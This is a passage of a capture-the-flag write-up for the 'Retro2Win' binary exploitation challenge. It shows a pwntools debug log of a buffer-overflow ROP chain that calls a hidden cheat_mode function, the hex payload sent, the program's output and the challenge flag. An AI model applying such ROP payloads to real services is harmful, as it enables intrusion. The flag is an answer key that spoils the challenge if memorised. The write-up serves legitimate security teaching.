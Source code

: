 
For some reason, it only comes through in the debug. Not sure if this is down to my exploit, the config on the server env (maybe the `socat` command in the dockerfile) or the C code itself. I CBA to debug, you'll work it out! 😅


```bash
[+] Opening connection to 127.0.0.1 on port 1338: Done
[DEBUG] Received 0xa8 bytes:
    b'*****************************\r\n'
    b'*       Retro2Win Game      *\r\n'
    b'*****************************\r\n'
    b'1. Explore the Forest\r\n'
    b'2. Battle the Dragon\r\n'
    b'3. Quit\r\n'
    b'\r\n'
    b'Select an option:\r\n'
[DEBUG] Sent 0x5 bytes:
    b'1337\n'
[*] Loaded 14 cached gadgets for './retro2win'
('0x0000:         0x4009b3 pop rdi; ret\n'
 '0x0008: 0x2323232323232323 [arg0] rdi = 2531906049332683555\n'
 '0x0010:         0x4009b1 pop rsi; pop r15; ret\n'
 '0x0018: 0x4242424242424242 [arg1] rsi = 4774451407313060418\n'
 "0x0020:      b'iaaajaaa' <pad r15>\n"
 '0x0028:         0x400736 cheat_mode')
[DEBUG] Received 0x6 bytes:
    b'1337\r\n'
[DEBUG] Received 0x17 bytes:
    b'Enter your cheatcode:\r\n'
[DEBUG] Sent 0x49 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  b3 09 40 00  00 00 00 00  │eaaa│faaa│··@·│····│
    00000020  23 23 23 23  23 23 23 23  b1 09 40 00  00 00 00 00  │####│####│··@·│····│
    00000030  42 42 42 42  42 42 42 42  69 61 61 61  6a 61 61 61  │BBBB│BBBB│iaaa│jaaa│
    00000040  36 07 40 00  00 00 00 00  0a                        │6·@·│····│·│
    00000049
[*] Switching to interactive mode

[DEBUG] Received 0xf3 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  b3 09 40 5e  40 5e 40 5e  │eaaa│faaa│··@^│@^@^│
    00000020  40 5e 40 5e  40 23 23 23  23 23 23 23  23 b1 09 40  │@^@^│@###│####│#··@│
    00000030  5e 40 5e 40  5e 40 5e 40  5e 40 42 42  42 42 42 42  │^@^@│^@^@│^@BB│BBBB│
    00000040  42 42 69 61  61 61 6a 61  61 61 36 5e  47 40 5e 40  │BBia│aaja│aa6^│G@^@│
    00000050  5e 40 5e 40  5e 40 5e 40  0d 0a 43 68  65 63 6b 69  │^@^@│^@^@│··Ch│ecki│
    00000060  6e 67 20 63  68 65 61 74  63 6f 64 65  3a 20 61 61  │ng c│heat│code│: aa│
    00000070  61 61 62 61  61 61 63 61  61 61 64 61  61 61 65 61  │aaba│aaca│aada│aaea│
    00000080  61 61 66 61  61 61 b3 09  40 21 0d 0a  43 48 45 41  │aafa│aa··│@!··│CHEA│
    00000090  54 20 4d 4f  44 45 20 41  43 54 49 56  41 54 45 44  │T MO│DE A│CTIV│ATED│
    000000a0  21 0d 0a 59  6f 75 20 6e  6f 77 20 68  61 76 65 20  │!··Y│ou n│ow h│ave │
    000000b0  61 63 63 65  73 73 20 74  6f 20 73 65  63 72 65 74  │acce│ss t│o se│cret│
    000000c0  20 64 65 76  65 6c 6f 70  65 72 20 74  6f 6f 6c 73  │ dev│elop│er t│ools│
    000000d0  2e 2e 2e 0d  0a 0d 0a 46  4c 41 47 3a  20 49 4e 54  │...·│···F│LAG:│ INT│
    000000e0  49 47 52 49  54 49 7b 66  61 6b 65 5f  66 6c 61 67  │IGRI│TI{f│ake_│flag│
    000000f0  7d 0d 0a                                            │}··│
    000000f3
```


Flag: `INTIGRITI{3v3ry_c7f_n33d5_50m3_50r7_0f_r372w1n}`

If you want to learn more about binary exploitation, check out my [beginner series!](https://www.youtube.com/watch?v=wa3sMSdLyHw&list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94)
